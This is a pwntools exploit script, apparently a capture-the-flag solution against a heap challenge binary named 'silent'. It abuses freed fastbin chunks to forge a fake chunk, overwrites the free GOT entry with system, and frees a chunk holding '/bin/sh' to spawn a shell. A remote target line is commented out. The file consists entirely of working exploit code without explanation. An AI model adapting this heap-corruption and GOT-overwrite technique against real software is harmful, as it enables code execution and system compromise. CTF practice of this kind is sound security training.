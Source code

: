 exp.py
```
#!/bin/sh
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

context.terminal = ['tmux', 'splitw', '-h']

#s = remote("39.107.32.132", "10000")
s = process("./silent")
elf = ELF("./silent")

def add(l,con):
	s.sendline("1")
	sleep(0.2)
	s.sendline(str(l))
	sleep(0.2)
	s.send(con)

def delete(idx):
	s.sendline("2")
	sleep(0.2)
	s.sendline(str(idx))

def edit(idx,con1,con2):
	s.sendline("3")
	sleep(0.2)
	s.sendline(str(idx))
	sleep(0.2)
	s.send(con1)
	sleep(0.2)
	s.send(con2)

add(0x60,"AAAA".ljust(0x5F, 'A'))
sleep(0.2)
add(0x60,"AAAA".ljust(0x5F, 'A'))
sleep(0.2)
add(0x60,"AAAA".ljust(0x5F, 'A'))
sleep(0.2)
delete(0)
sleep(0.2)
delete(1)
sleep(0.2)
delete(2)
sleep(0.2)


free_got = 0x602018
fake_chunk = p64(0) + p64(0x71)
fake_chunk = fake_chunk.ljust(0x2F, 'k')

edit(2, p64(0x6020A5-8)[:3] + chr(0), fake_chunk)
sleep(0.2)
padding = "/bin/sh\x00" + "a" * 0xb
padding += p64(free_got)
add(0x60, padding)
sleep(0.2)
add(0x60, padding)
sleep(0.2)
edit(0, p64(elf.symbols["system"]), p64(elf.symbols["system"]))
sleep(0.2)
delete(4)
```